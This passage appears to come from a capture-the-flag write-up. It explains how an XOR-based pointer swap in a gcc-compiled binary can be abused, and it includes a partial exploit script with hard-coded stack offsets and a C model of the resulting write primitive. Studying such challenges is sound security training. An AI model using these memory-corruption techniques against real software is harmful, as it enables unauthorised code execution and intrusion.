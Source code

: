```assembly  
       001012f2 90              NOP  
       001012f3 5d              POP        RBP  
       001012f4 c3              RET  
```

using swap on ptrs has some interesting edge cases notably if `a == b` the
value doesn't get swapped but zeroed out instead (because `*a ^ *a == 0`))

One important quirk of the gcc compiler (if no optimization is specified) is
that the parameters `a` and `b` are actually cached in the stack (`a_stack`
and `b_stack`) even though this isn't needed at all. But this allows us the
create some weird behavior, e.g. what happens if we swap the value of
`b_stack` during our swap operations, (so `b != b_stack`).

```python  
GDB = f"""  
b * swap+0x10  
"""

...

# important offsets  
BASE = 0x7fffffffe530 # 0  
A_STACK = base_diff(0x7fffffffe508) # -5  
B_STACK = base_diff(0x7fffffffe500) # -6  
WOOGIE_STACK = base_diff(0x7fffffffe538) # 1  
BOOGIE_STACK = base_diff(0x7fffffffe540) # 2

t = get_target()  
woogie_boogie(0, WOOGIE_STACK) # clear buffer (to 0)  
woogie_boogie(0, B_STACK) # weird stuff

it()  
```

which basically represents these operations:

```c  
#include <assert.h>

#define IMMEDIATE 0x20  
#define DONOR 0x6fe1be2

void main(){  
 long buffer = IMMEDIATE;  
 *(long *)((long)&buffer^IMMEDIATE) = DONOR;  
 long* b = &buffer;  
 long* a = (long*) &b;

 *a = *a^*b;   
 // OR b = b^*b  
 // OR b = &buffer^IMMEDIATE  
 assert((long)b == (long)&buffer^buffer);

 *b = *a^*b;   
 // OR *(&buffer^IMMEDIATE) = *(&buffer^IMMEDIATE)^&buffer^IMMEDIATE  
 // OR *(&buffer^IMMEDIATE) ^= &buffer^IMMEDIATE  
 assert(*(long*)((long)&buffer^IMMEDIATE) == DONOR^(long)&buffer^buffer);

 *a = *a^*b; // ignore

 assert(*(long*)((long)&buffer^IMMEDIATE) == DONOR^(long)&buffer^buffer);  
}  
```
